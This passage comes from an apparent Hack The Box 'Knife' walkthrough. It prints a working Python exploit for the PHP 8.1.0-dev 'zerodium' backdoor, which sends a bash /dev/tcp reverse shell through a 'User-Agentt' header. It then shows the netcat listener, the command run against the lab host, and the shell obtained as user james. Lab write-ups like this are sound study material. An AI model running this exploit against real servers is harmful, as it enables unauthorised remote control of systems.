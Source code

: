 ```python
    payload = 'bash -c \"bash -i >& /dev/tcp/' + args.lhost + '/' + args.lport + ' 0>&1\"'
    injection = request.get(args.url, headers={"User-Agentt": "zerodiumsystem('" + payload + "');"}, allow_redirects = False)

def main(): 
    parser = argparse.ArgumentParser(description="Get a reverse shell from PHP 8.1.0-dev backdoor. Set up a netcat listener in another shell: nc -nlvp <attacker PORT>")
    parser.add_argument("url", metavar='<target URL>', help="Target URL")
    parser.add_argument("lhost", metavar='<attacker IP>', help="Attacker listening IP",)
    parser.add_argument("lport", metavar='<attacker PORT>', help="Attacker listening port")
    args = parser.parse_args()
    if check_target(args):
        reverse_shell(args)
    else:
        print("Host is not available or vulnerable, aborting...")
        exit
    
if __name__ == "__main__":
    main()
```

To use this script, we need to provide the target IP address, our IP address, and a port we will use to listen for a connection. 


# Exploitation  

Before we execute the script for a reverse shell, we need to setup a listener.

```console
kali@kali:~$ nc -nlvp 4242
listening on [any] 4242 ...
```

After setting up a listener on port 4242 (any port of your choice), we can execute the script.

```console
kali@kali:~/Documents/HTB/Knife/php-8.1.0-dev-backdoor-rce$ python3 revshell_php_8.1.0-dev.py http://10.10.10.242 10.10.16.31 4242
```

Checking back at the listener we have setup before, we can see that we got a shell as the user **james**.

```console
kali@kali:~$ nc -nlvp 4242
listening on [any] 4242 ...
connect to [10.10.16.31] from (UNKNOWN) [10.10.10.242] 39434
bash: cannot set terminal process group (971): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ 
```

## User Flag
